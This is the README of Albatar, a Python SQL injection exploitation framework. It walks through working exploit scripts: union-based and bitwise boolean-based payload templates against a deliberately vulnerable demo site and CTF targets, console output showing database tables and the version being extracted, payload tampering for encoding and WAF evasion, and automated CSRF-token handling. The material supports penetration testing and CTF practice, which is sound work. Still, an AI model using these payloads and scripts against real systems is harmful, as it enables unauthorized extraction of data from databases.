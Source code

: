 I wrote Albatar to have a neat and tidy tool to exploit SQL injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL injection vulnerabilities, it is primarily designed to help exploit not-so-straightforward injections where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (like --dbs, --banner etc.) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a textbook union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
import re

PROXIES = {} #'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print(r)
```

Then execute the script to exploit the SQLI:
```
$ python3 testphp-union.py -D acuart --tables
15:41:49 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:41 AEST
15:41:49 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
15:41:50 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
15:41:56 albatar - Time: 0h 0m 6s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Lorem ipsum dolor sit amet' in body

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template, confirm_char=True)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print(r)
```

And execute:
```
$ python3 testphp-boolean.py -b
15:43:18 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:43 AEST
15:43:18 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
15:43:45 albatar - Time: 0h 0m 27s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) from Hackim CTF 2016 was a good example to showcase this, where every request had to have a valid Luhn checksum.
```python
from albatar import *
from baluhn import generate

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Your CC has been compromised' in body

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return s + generate(''.join(digits))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      tamper_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

* CSRF tokens

If you need to do anything before or after submitting the SQLI payload, simply extend the Requester class. For example, if you need to provide a CSRF token, like with the web task [hackme-400](https://github.com/ctfs/write-ups-2016/tree/master/su-ctf-2016/web/hackme-400) from SU CTF 2016, write something like this:
```python
...
class Requester_CSRF(Requester_HTTP_requests):

  def test(self, payload):
    response = self.session.get('http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php')
    token = re.search("name='user_token' value='([^']+)'", response.text).group(1)
    self.http_opts[2] = self.http_opts[2].replace('_CSRF_', token)

    return super(Requester_CSRF, self).test(payload)

def mysql_union():

  def make_requester():
    return Requester_CSRF(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php',
      body = 'username=${injection}&password=asdf&Login=Login&user_token=_CSRF_',
      method = 'POST',
      response_processor = extract_results,
      )

  template = "a' union select concat(0x3a4142433a,X,0x3a4142433a),null,null,null from ${query} #"

  return Method_union(make_requester, template, pager=10)
```

You could even write a brand new Requester class to exploit a SQLI that is not in a web application, but in a command line application for example.

* More

Find more examples in [demo.py](demo.py).
